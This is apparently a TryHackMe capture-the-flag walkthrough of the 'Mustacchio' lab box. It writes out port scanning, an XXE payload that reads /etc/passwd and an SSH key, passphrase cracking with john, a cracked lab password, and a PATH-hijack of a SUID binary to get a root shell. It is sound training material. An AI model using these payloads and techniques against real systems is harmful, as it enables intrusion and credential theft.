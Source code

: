In this walkthrough, we'll go over a challenge (easy) level box called ***Mustacciho*** on [TryHackMe](https://tryhackme.com/room/jeff) 

![Jeff](Mustacciho.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.43.71 --open
```
Per the nmap result, it looks like ports 22, 80 and 8765 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-16 15:50 EDT
Nmap scan report for 10.10.43.71
Host is up (0.21s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.71 seconds
```
We can see the website served on port 80:

![Mustacchio Index](mustacchio-index-html.png)

We can start busting the directories with `dirsearch -u http://10.10.43.71 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt`:

![Mustacchio Dirsearch](mustacchio-dirsearch-80.png)

We see a directory called ***custom***. In that directory, we find a file called ***/auth/dontforget.bak***:

![Mustacchio BAK](mustacchio-auth-bak.png)

Upon visting the directory, we are prompted to download dontforget.bak and it has an example XML template:

![Mustacchio dont forget](mustacchio-dontforget-bak.png)

We can craft the below XML payload to read "/etc/passwd" file and then send it via the repeater:
```xml
<?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
<name>
  &xxe;
</name>
<author>Testing</author>
<com>This is a test</com>
</comment>
```

![Mustacchio Passwd](mustacchio-passwd-xml.png)

We then use the payload to retreive barry's ssh key:

![Mustacchio SSH Key](mustacchio-ssh-key.png)

Now, we can try to crack this.
1. First convert the key: `/usr/share/john/ssh2john.py id_rsa > ssh-hash` 
2. Then use john to crack the hash: `john ssh-hash --wordlist=/usr/share/wordlists/rockyou.txt`

![Mustacchio SSH Pass](mustacchio-ssh-pass.png)

SSH creds:

Username | Password
----------- | ---------
barry | urieljames

We can ssh into the machine with the above credentials:

![Mustacchio Initial Foothold](mustacchio-initial-foothold.png)

For potential privesc PE, I ran the following command `find / -type f -a \\( -perm -u+s -o -perm -g+s \\) -exec ls -l {} \\; 2>/dev/null`:

![Mustacchio Binaries](mustacchio-binaries.png)

And find ***/home/joe/live_log*** binary. If we run "strings" command, we'll see that this executable runs "tail" command:
`string /home/joe/live_log`

![Mustacchio Strings](mustacchio-strings.png)

We can try to create a binary and name it "tail" and add the path of the binary to PATH in order to inject our own code. From here, we switch to "/tmp" folder and run the following scripts to copy "/bin/bash" to tail file:
```bash
echo '/bin/bash' > /tmp/tail
chmod +x tail
export PATH=/tmp:$PATH
```

After that we can just run `/home/joe/live_log` and get a root shell:
![Mustacchio Root](mustacchio-root.png)

Finally, we have done it, we the root user.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
